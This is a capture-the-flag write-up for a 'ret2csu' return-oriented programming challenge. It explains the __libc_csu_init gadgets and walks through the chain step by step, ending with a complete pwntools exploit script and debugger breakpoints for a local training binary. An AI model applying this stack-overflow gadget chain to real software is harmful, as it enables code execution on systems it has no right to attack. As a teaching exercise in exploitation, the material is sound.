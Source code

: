 # Challenge Theory
"ret2csu" is a simple rop challenge, but it doesn't have many rop gadgets.
This means the attacker has to resort to the universal rop technique.
It is also known as "ret2csu".
# RET2CSU Attack
To understand ret2csu, the "libc_csu_init" code needs to be looked at.
This code is contained in every binary that has been compiled and needs "libcsu".
The code is:
## "libc\_csu\_init" Assembly Code
```c
0x0000000000400640 <+0>:	push   r15
0x0000000000400642 <+2>:	push   r14
0x0000000000400644 <+4>:	mov    r15,rdx
0x0000000000400647 <+7>:	push   r13
0x0000000000400649 <+9>:	push   r12
0x000000000040064b <+11>:	lea    r12,[rip+0x20079e]        # 0x600df0
0x0000000000400652 <+18>:	push   rbp
0x0000000000400653 <+19>:	lea    rbp,[rip+0x20079e]        # 0x600df8
0x000000000040065a <+26>:	push   rbx
0x000000000040065b <+27>:	mov    r13d,edi
0x000000000040065e <+30>:	mov    r14,rsi
0x0000000000400661 <+33>:	sub    rbp,r12
0x0000000000400664 <+36>:	sub    rsp,0x8
0x0000000000400668 <+40>:	sar    rbp,0x3
0x000000000040066c <+44>:	call   0x4004d0 <_init>
0x0000000000400671 <+49>:	test   rbp,rbp
0x0000000000400674 <+52>:	je     0x400696 <__libc_csu_init+86>
0x0000000000400676 <+54>:	xor    ebx,ebx
0x0000000000400678 <+56>:	nop    DWORD PTR [rax+rax*1+0x0]
0x0000000000400680 <+64>:	mov    rdx,r15
0x0000000000400683 <+67>:	mov    rsi,r14
0x0000000000400686 <+70>:	mov    edi,r13d
0x0000000000400689 <+73>:	call   QWORD PTR [r12+rbx*8]
0x000000000040068d <+77>:	add    rbx,0x1
0x0000000000400691 <+81>:	cmp    rbp,rbx
0x0000000000400694 <+84>:	jne    0x400680 <__libc_csu_init+64>
0x0000000000400696 <+86>:	add    rsp,0x8
0x000000000040069a <+90>:	pop    rbx
0x000000000040069b <+91>:	pop    rbp
0x000000000040069c <+92>:	pop    r12
0x000000000040069e <+94>:	pop    r13
0x00000000004006a0 <+96>:	pop    r14
0x00000000004006a2 <+98>:	pop    r15
0x00000000004006a4 <+100>:	ret
```
There are two parts of this code that matter.
### First Gadget
```c
0x000000000040069a <+90>:	pop    rbx
0x000000000040069b <+91>:	pop    rbp
0x000000000040069c <+92>:	pop    r12
0x000000000040069e <+94>:	pop    r13
0x00000000004006a0 <+96>:	pop    r14
0x00000000004006a2 <+98>:	pop    r15
0x00000000004006a4 <+100>:	ret
```
These can pop values into registers which are used in the next gadget.
### Second Gadget
```c
0x0000000000400680 <+64>:	mov    rdx,r15
0x0000000000400683 <+67>:	mov    rsi,r14
0x0000000000400686 <+70>:	mov    edi,r13d
0x0000000000400689 <+73>:	call   QWORD PTR [r12+rbx*8]
```
This will move the values into the registers, and the do a call.
The call is complicated.
It will derefernce the value calculated and then call that.
So if the value if the brackets is 0x5.
It will get the value at 0x5 and then call that.
The attacker has to find a pointer to something that will either do what they want, or do nothing.
More on the nothing route later.
# Solution and Exploit Theory
This challenge actually has a "ret2win" function which will print the flag.
It needs 3 arguments, which can be populated by the "ret2csu" method along with an extra pop.
The other thing that needs to be enumerated would be the is the "nothing route".
Since the call instruction deferences a pointer, a pointer to code is needed.
One can use the "_fini" function found within libc.
## \_fini Code
```c
   0x00000000004006b4 <+0>:	sub    rsp,0x8
   0x00000000004006b8 <+4>:	add    rsp,0x8
   0x00000000004006bc <+8>:	ret    
```
This code does nothing, because of the symmetric operation on the stack.
## Getting the Pointer to "\_fini"
```bash
\<pwndbg\>search -p 0x4006b4
```
This searchers for a pointer to the attacker "\_fini" code.
# Exploit
The exploit functions as:
```
stack smash
gadget to pop all the values
0 for rbx
1 for rbp
address of _fini
ret2win arg1
ret2win arg2
ret2win arg3
gadget to move the values into registers and do the call
0x0
0x0
0x0
0x0
0x0
0x0
0x0
pop rdi
arg1
ret2win
```
Most of the exploit has already been explained.
However, there are more parts that need to be explained.
First, there is the 0 and 1 for the rbp and rbx registers.
This is because the exploit comes across a comparison after moving through the "\_fini" section.
This code also adds 1 to rbx.
This means the code will fall through instead of making the jump.
The code will also return back to the pop gadget.
So the extra zeroes are there, so that the rest of the exploit does not end up inside the registers.
After this, the last argument is popped into the rdi register, and ret2win is called.
# Full Exploit Script
```python
#!/usr/bin/python3
import pwn
import sys
binary = "ret2csu"
pwn.context.binary = binary
pwn.context.encoding = "latin"

'''
Exploit:
    ret2win(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)
    rdi: 0xdeadbeefdeadbeef
    rsi: 0xcafebabecafebabe
    rdx: 0xd00df00dd00df00d
'''

padding = 40
gadgets = {
    "csuinit_pop":0x40069a,
    "csinit_call":0x400680,
    "pop_rdi_ret":0x4006a3,
    "address_ret2win":0x400510,
    "_fini_ptr":0x6003b0
}

payload = pwn.flat(
    b"A"*padding,
    pwn.p64(gadgets["csuinit_pop"]),
    pwn.p64(0x0),
    pwn.p64(0x1),
    pwn.p64(gadgets["_fini_ptr"]),
    pwn.p64(0xdeadbeefdeadbeef),
    pwn.p64(0xcafebabecafebabe),
    pwn.p64(0xd00df00dd00df00d),
    pwn.p64(gadgets["csinit_call"]),
    pwn.p64(0x0),
    pwn.p64(0x0),
    pwn.p64(0x0),
    pwn.p64(0x0),
    pwn.p64(0x0),
    pwn.p64(0x0),
    pwn.p64(0x0),
    pwn.p64(gadgets["pop_rdi_ret"]),
    pwn.p64(0xdeadbeefdeadbeef),
    pwn.p64(gadgets["address_ret2win"])
)

if ("input" in sys.argv):
    with open("input", "wb") as io:
        io.write(payload)

if ("log" in sys.argv):
    pwn.context.log_level = "debug"

with pwn.process(binary) as io:
    pwn.info(io.readrepeat(1))

    io.send(payload)

    if ("interactive" in sys.argv):
        io.interactive()

    if ("output" in sys.argv):
        pwn.info(io.readrepeat(1))
```
# Debugging Script
```bash
b *0x400510
b *0x4006a3
r < input
b *0x40069a
b *0x400680
```